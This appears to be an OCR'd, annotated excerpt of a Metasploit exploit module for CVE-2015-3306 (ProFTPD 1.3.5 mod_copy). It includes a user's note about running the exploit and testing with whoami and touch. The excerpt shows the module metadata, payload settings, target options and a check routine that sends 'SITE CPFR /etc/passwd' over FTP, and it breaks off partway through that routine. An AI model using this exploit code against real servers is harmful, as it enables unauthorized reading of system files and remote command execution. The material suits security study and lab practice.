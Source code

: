 ```run``` to start exploit, after inside, i test with commands whoami and touch testi3.txt
          [ 'CVE', '2015-3306' ],
          [ 'EDB', '36742' ],
          [ 'URL', 'http://bugs.proftpd.org/show_bug.cgi?id=4169' ]
        ],
        'Privileged' => false,
        'Platform' => [ 'unix' ],
        'Arch' => ARCH_CMD,
        'Payload' => {
          'BadChars' => '',
          'Compat' => {
            'PayloadType' => 'cmd',
            'RequiredCmd' => 'generic gawk python perl netcat'
          }
        },
        'Targets' => [
          [ 'ProFTPD 1.3.5', {} ]
        ],
        'DisclosureDate' => '2015-04-22',
        'DefaultTarget' => 0,
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS]
        }
      )
    )

+# settings for http and ftp ports, target url, sitepath
    register_options([
      OptPort.new('RPORT', [true, 'HTTP port', 80]),
      OptPort.new('RPORT_FTP', [true, 'FTP port', 21]),
      OptString.new('TARGETURI', [true, 'Base path to the website', '/']),
      OptString.new('TMPPATH', [true, 'Absolute writable path', '/tmp']),
      OptString.new('SITEPATH', [true, 'Absolute writable website path', '/var/www'])
    ])
  end

  def ftp_port
    datastore['RPORT_FTP']
  end

+# check connection + if target is vulnerable
  def check
    # open tcp connection to server
    sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)

    # failed to connect
    if sock.nil?
      return CheckCode::Unknown("#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    vprint_status("#{rhost}:#{ftp_port} - Connected to FTP server")

    # Set 30 second timeout to allow remote server time to perform reverse DNS lookup
    res = sock.get_once(-1, 30)

    unless res && res.include?('220')
      return CheckCode::Safe("#{rhost}:#{ftp_port} - Failure retrieving ProFTPD 220 OK banner")
    end

    sock.puts("SITE CPFR /etc/passwd\r\n")
    res = sock.get_once(-1, 10)

```